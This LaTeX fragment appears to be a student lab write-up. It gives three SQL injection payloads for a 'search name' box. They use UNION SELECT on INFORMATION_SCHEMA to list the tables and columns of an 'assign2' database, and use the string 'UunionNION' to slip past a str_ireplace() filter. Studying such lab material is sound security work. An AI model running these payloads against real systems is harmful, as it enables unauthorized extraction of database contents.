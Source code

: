 \documentclass{article}
\begin{document}
           \textbf{(a)\space \space \%' UunionNION All select TABLE\_TYPE,TABLE\_SCHEMA,table\_name FROM INFORMATION\_SCHEMA.TABLES\#}\\
             This attack vectors dumps the information related to TABLES and INFORMATION\_SCHEMA.\\
             Here,in attack vectors \textbf{UunionNION} is used in place of \textbf{UNION} to bypass \textbf{str\_ireplace()} function.
             \begin{figure}[H]
             \begin{center}
		    \includegraphics[width=10cm,height=8cm]{5.png}
		    \caption{Tables name and information schema}
		\end{center}
	\end{figure}
	
	\textbf{(b) \space \space \%' UunionNION All select TABLE\_TYPE,TABLE\_SCHEMA,table\_name FROM INFORMATION\_SCHEMA.TABLES where TABLE\_SCHEMA='assign2'\#}\\
	 This attack vector when entered in 'search name' box will gives us the name of tables in that database 'assign2'.\\ \\
	 \textbf{(c)\space \space\%' UunionNION SELECT TABLE\_SCHEMA,TABLE\_NAME,COLUMN\_NAME  FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_SCHEMA = 'assign2' AND TABLE\_NAME = 'users'\#}\\
	  This attack vector will dump the Database name,table name and their columns name.\\
	  \begin{figure}[H]
	    \begin{center}
	      \includegraphics[width=10cm,height=4cm]{6.png}
	      \caption{Database name, Table name and Column names}
	    \end{center}
	\end{figure}
\end{document}
